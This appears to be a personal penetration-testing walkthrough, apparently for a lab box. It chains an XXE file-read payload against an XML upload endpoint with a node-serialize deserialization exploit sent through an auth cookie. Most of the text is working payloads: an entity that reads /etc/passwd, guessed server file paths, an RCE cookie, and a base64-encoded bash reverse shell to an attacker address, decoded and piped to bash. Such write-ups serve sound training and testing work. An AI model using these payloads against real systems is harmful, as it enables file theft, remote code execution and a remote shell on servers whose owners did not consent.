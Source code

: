 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Quick file upload win
```XML - kali
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```

### Burp to XXE
After logging in, go to file upload.

Create a test.txt with random characters.

echo "fdafasfsdf" > test.txt

Upload with Burp on.

Look in Burp for POST /articles/xml

Make a test.xml file with the template provided from Burp request:

test.xml
```xml - kali
<post><title>Example Post</title><description>Example Description</description><markdown>Example Markdown</markdown></post>
```

Upload the new test.xml file.

![[Pasted image 20220218093158.png]]

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#detect-the-vulnerability

Take the header lines from PayloadsAllTheThings
```xml - xxe
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
```

Combine it with our xml code, update the description with "&example;":

```xml - xxe
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
<post><title>Example Post</title><description>&example;</description><markdown>Example Markdown</markdown></post>
```

Verify we see "Doe" in the description field.

![[Pasted image 20220218093947.png]]

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#classic-xxe

Pay attention to the !ENTITY value "test", and replace accordingly with the description field.

```xml - xxe
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<post><title>Example Post</title><description>&test;</description><markdown>Example Markdown</markdown></post>
```

![[Pasted image 20220218095220.png]]

Great, now for node.js system, we need to find one of the following files:

/opt/blog/app.js
/opt/blog/server.js
/opt/blog/main.js

Replace the payload until one works.

Take the source code of server.js, make a new folder "src", with a server.js document inside, pasting the source.js code.

Look at line 6, requirement of node-serialize.

>const serialize = require('node-serialize')

Google "node-serialize exploit"

https://snyk.io/test/npm/node-serialize

```
'{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
```

While logged in, capture a request to "/" in Burp.

![[Pasted image 20220218101257.png]]

Decode the Cookie: value by highlighting it and pressing CTRL+Shift+U

Cookie: auth={"user":"admin","sign":"23e112072945418601deb47d9a6c7de8"}

EXAMPLE ls command:
```
Cookie: auth={"user":"admin","sign":"23e112072945418601deb47d9a6c7de8","rce":"_$$ND_FUNC$$_function (){require(\"child_process\").exec(\"ls /\", function(error, stdout, stderr) { console.log(stdout) });}()"}

```

```bash - kali
echo "bash  -i >& /dev/tcp/$KALI/443  0>&1" | base64
```

YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTE3LzQ0MyAgMD4mMQo=

```bash - kali
echo -n YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTE3LzQ0MyAgMD4mMQo= | base64 -d | bash
```

Final should look like:

```
Cookie: auth={"user":"admin","sign":"23e112072945418601deb47d9a6c7de8","rce":"_$$ND_FUNC$$_function (){require(\"child_process\").exec(\"echo -n YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTE3LzQ0MyAgMD4mMQo= | base64 -d | bash\", function(error, stdout, stderr) { console.log(stdout) });}()"}
```

Highlight and convert selection to URL encoded: 

Convert selection > URL > URL encode ALL characters

Request should look like:

![[Pasted image 20220218103639.png]]


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
